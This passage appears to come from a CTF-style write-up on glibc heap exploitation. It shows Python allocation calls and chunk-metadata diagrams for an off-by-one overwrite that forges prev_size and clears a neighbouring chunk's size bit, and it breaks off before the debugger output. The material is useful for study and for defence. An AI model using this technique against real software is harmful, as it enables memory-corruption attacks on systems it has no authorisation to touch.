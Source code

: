 Now, we will alllocate the chunk of following size, usually the ones which will go to either the `tcache` bin or the `unsorted` bin:-

```py

 # heap_chunks[0] ==> size 0x500
add(0x4f0,"a"*0x8,1)
# heap_chunks[1] ==> size 0x070
add(0x60,"b"*8)
# heap_chunks[2] ==> size 0x40
add(0x30,"a"*8)
# heap_chunks[3] ==> size 0x20
add(0x10,"a"*8)
# heap_chunks[4] ==> size 0x500
add(0x4f0,"b"*8,0)
# heap_chunks[5] ==> size 0x20
add(0x10,"a"*8)
```

Now, here we allocated the `chunk[0]` and `chunk[4]` in an unsorted bin range and the rest of them usually belongs to the `tcache` bin range. Now, what we will do here is, free the `chunk[3]` of size `0x10` and then allocate a chunk of size `0x18` but at the same it'll belong to the bin of the `0x20`, the same chunk will be returned. When that will happen, since the actual size we allocated and we are allowed to write to will be of size `0x18` allowing us to write into the metadata and if we will look at the layout of the chunk:-

```r
The 0x20 chunk

+++++++++++++++++++++++++++
|   0x00      |  0x00     | --> 0x10
+++++++++++++++++++++++++++
|  prev_size  |   size    | --> 0x10 
---------------------------

After we edit the metadata of the chunk

++++++++++++++++++++++++++
|  0x00       | 0x00     |
++++++++++++++++++++++++++
| 0x5d0       | 0x501    | --> heap_chunks[4] size
--------------------------
```
Now, what will happen here is we will trigger the off by one vulnerability and as well as the `prev_size` this will result in the chunk layout being:-

```r
++++++++++++++++++++++++++
|  0x00       | 0x00     |
++++++++++++++++++++++++++
| 0x5d0       | 0x500    | 
--------------------------
```

So, when we look at it ourselves in the gdb:-
